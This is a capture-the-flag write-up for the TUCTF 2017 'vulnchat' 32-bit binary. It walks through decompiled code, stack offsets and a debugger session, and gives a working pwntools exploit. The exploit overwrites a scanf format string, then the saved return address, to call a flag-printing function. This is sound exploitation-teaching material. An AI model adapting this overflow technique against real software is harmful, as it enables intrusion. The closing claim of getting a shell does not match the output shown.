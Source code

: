 # tuctf 2017 vulnchat

Let's take a look at the binary:

```bash
$    file vuln-chat
vuln-chat: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=a3caa1805eeeee1454ee76287be398b12b5fa2b7, not stripped
$    ./vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: 15935728
Welcome 15935728!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
15935728: you don't
djinn: Sorry. That's not good enough
```

So we can see that we are dealing with a 32 bit elf binary. When we run it, it prompts us for two seperate inputs. The first is a username, and the second is a string that is supposed to make it trust us. Taking a look at the main function in Ghidra we see this:

```c
undefined4 main(void)

{
  undefined password [20];
  undefined name [20];
  undefined4 fmt;
  undefined local_5;

  setvbuf(stdout,(char *)0x0,2,0x14);
  puts("----------- Welcome to vuln-chat -------------");
  printf("Enter your username: ");
  fmt = 0x73303325;
  local_5 = 0;
  __isoc99_scanf(&fmt,name);
  printf("Welcome %s!\n",name);
  puts("Connecting to \'djinn\'");
  sleep(1);
  puts("--- \'djinn\' has joined your chat ---");
  puts("djinn: I have the information. But how do I know I can trust you?");
  printf("%s: ",name);
  __isoc99_scanf(&fmt,password);
  puts("djinn: Sorry. That\'s not good enough");
  fflush(stdout);
  return 0;
}
```

So we can see, the program essentially calls `scanf` twice. The input is first scanned into `name`, then into `password`. The format specifier is stored on the stack in the `fmt` variable. We can see in the assembly code that it is initialized to `%30s` (we have to convert the data to a char sequence):

```asm
        080485be c7 45 fb        MOV        dword ptr [EBP + fmt],"%30s"
                 25 33 30 73
```

So both times by default it will let us scan in 30 characters, which will let us scan in 30 bytes worth of data. Next we take a look at the stack layout in Ghidra:

```asm
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         AL:1           <RETURN>
             undefined1        Stack[-0x5]:1  local_5                                 XREF[1]:     080485c5(W)
             undefined4        Stack[-0x9]:4  fmt                                     XREF[3]:     080485be(W),
                                                                                                   080485cd(*),
                                                                                                   08048630(*)
             undefined[20]     Stack[-0x1d]   name                                    XREF[3]:     080485c9(*),
                                                                                                   080485d9(*),
                                                                                                   0804861b(*)
             undefined[20]     Stack[-0x31]   password                                XREF[1]:     0804862c(*)
                             main                                            XREF[4]:     Entry Point(*),
                                                                                          _start:08048487(*), 08048830,
                                                                                          080488ac(*)
        0804858a 55              PUSH       EBP
```

So we can see that `password` is stored at offset `-0x31`, `name` is stored at offset `-0x1d`, and `fmt` is stored at `-0x9`. The `password` char array can hold `0x31 - 0x1d = 0x14` bytes. The `name` char array can hold `0x1d - 0x9 = 0x14` bytes worth of data too. Since we can scan in `30` bytes worth of data, this gives us a 10 byte overflow in both cases. With our given setup we won't be able to get code execution with either overflow alone. However with the first overflow (the one to `name`) we will be able to overwrite the value of `fmt`. This will allow us to specify how much data the second `scanf` call will scan. With that we will be able to scan in more than enough data to overwrite the saved return address, and get code execution when the `ret` instruction executes.

For what function to call, the `printFlag` function at `0x804856b` seems to be a good candidate. It just prints the context of the flag using `cat` (also to get the flag, we need to have a copy of `flag.txt` in the same directory as the binary):

```c
void printFlag(void)

{
  system("/bin/cat ./flag.txt");
  puts("Use it wisely");
  return;
}
```

So let's take a look at how the memory is corrupted during the exploit. First I set a breakpoint for right after the second scanf call:

```bash
gef➤  b *0x8048639
Breakpoint 1 at 0x8048639
gef➤  r
Starting program: /Hackery/pod/modules/bof_callfunction/tu17_vulnchat/vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: 15935728
Welcome 15935728!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
15935728: 75395128
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1
$ebx   : 0x0
$ecx   : 0x1
$edx   : 0xf7fb089c  →  0x00000000
$esp   : 0xffffd030  →  0xffffd063  →  "%30s"
$ebp   : 0xffffd068  →  0x00000000
$esi   : 0xf7faf000  →  0x001d7d6c ("l}"?)
$edi   : 0x0
$eip   : 0x08048639  →  <main+175> add esp, 0x8
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
───────────────────────────────────────────────────────────────────── stack ────
0xffffd030│+0x0000: 0xffffd063  →  "%30s"     ← $esp
0xffffd034│+0x0004: 0xffffd03b  →  "75395128"
0xffffd038│+0x0008: 0x37049a10
0xffffd03c│+0x000c: "5395128"
0xffffd040│+0x0010: 0x00383231 ("128"?)
0xffffd044│+0x0014: 0xffffd104  →  0xffffd2b4  →  "/Hackery/pod/modules/bof_callfunction/tu17_vulncha[...]"
0xffffd048│+0x0018: 0xffffd10c  →  0xffffd2f2  →  "CLUTTER_IM_MODULE=xim"
0xffffd04c│+0x001c: 0x31e076a5
─────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048630 <main+166>       lea    eax, [ebp-0x5]
    0x8048633 <main+169>       push   eax
    0x8048634 <main+170>       call   0x8048460 <__isoc99_scanf@plt>
 →  0x8048639 <main+175>       add    esp, 0x8
    0x804863c <main+178>       push   0x80487ec
    0x8048641 <main+183>       call   0x8048410 <puts@plt>
    0x8048646 <main+188>       add    esp, 0x4
    0x8048649 <main+191>       mov    eax, ds:0x8049a60
    0x804864e <main+196>       push   eax
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln-chat", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8048639 → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x08048639 in main ()
gef➤  search-pattern 75395128
[+] Searching '75395128' in memory
[+] In '[heap]'(0x804a000-0x806c000), permission=rw-
  0x804a160 - 0x804a168  →   "75395128"
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd03b - 0xffffd043  →   "75395128"
gef➤  search-pattern %30s
[+] Searching '%30s' in memory
[+] In '/Hackery/pod/modules/bof_callfunction/tu17_vulnchat/vuln-chat'(0x8048000-0x8049000), permission=r-x
  0x80485c1 - 0x80485c5  →   "%30s[...]"
[+] In '/Hackery/pod/modules/bof_callfunction/tu17_vulnchat/vuln-chat'(0x8049000-0x804a000), permission=rw-
  0x80495c1 - 0x80495c5  →   "%30s[...]"
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd063 - 0xffffd067  →   "%30s"
gef➤  x/14x 0xffffd03b
0xffffd03b:    0x39333537    0x38323135    0xffd10400    0xffd10cff
0xffffd04b:    0xe076a5ff    0x33393531    0x38323735    0x04866b00
0xffffd05b:    0x00000008    0xfaf00000    0x73303325    0x00000000
0xffffd06b:    0xdefe8100    0x000001f7
gef➤  i f
Stack level 0, frame at 0xffffd070:
 eip = 0x8048639 in main; saved eip = 0xf7defe81
 Arglist at 0xffffd068, args:
 Locals at 0xffffd068, Previous frame's sp is 0xffffd070
 Saved registers:
  ebp at 0xffffd068, eip at 0xffffd06c
```

So we can see that the format string is stored at `0xffffd063`, which is `20` bytes away from our name at `0xffffd04f`. Our second input begins at `0xffffd03b` which is `0x31` bytes away from the return address at `0xffffd06c`. Also one thing, the memory layout here probably looks a bit weird. The reason for this is `x86` is designed around `4` byte values (although it can handle a lot of different sizes for value types), so most addresses (with the except of variable length ones) are aligned to either `0x0`, `0x4`, `0x8`, or `0xc`. However our char array (which can be a wide array of values) starts at `0xffffd03b`, so it messes up the alignment when we view the memory using it as a reference.

Putting it all together, we get the following exploit:

```python
from pwn import *

# Establish the target process
target = process('./vuln-chat')

# Print the initial text
print target.recvuntil("username: ")

# Form the first payload to overwrite the scanf format string
payload0 = ""
payload0 += "0"*0x14 # Fill up space to format string
payload0 += "%99s" # Overwrite it with "%99s"

# Send the payload with a newline character
target.sendline(payload0)

# Print the text up to the second scanf call
print target.recvuntil("I know I can trust you?")

# From the second payload to overwrite the return address
payload1 = ""
payload1 += "1"*0x31 # Filler space to return address
payload1 += p32(0x804856b) # Address of the print_flag function

# Send the second payload with a newline character
target.sendline(payload1)

# Drop to an interactive shell to view the rest of the input
target.interactive()
```

When we run it:

```bash
$    python exploit.py
[+] Starting local process './vuln-chat': pid 9724
----------- Welcome to vuln-chat -------------
Enter your username:
Welcome 00000000000000000000%99s!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
[*] Switching to interactive mode

00000000000000000000%99s: djinn: Sorry. That's not good enough
flag{g0ttem_b0yz}
Use it wisely
[*] Got EOF while reading in interactive
$
```

Just like that we got a shell!
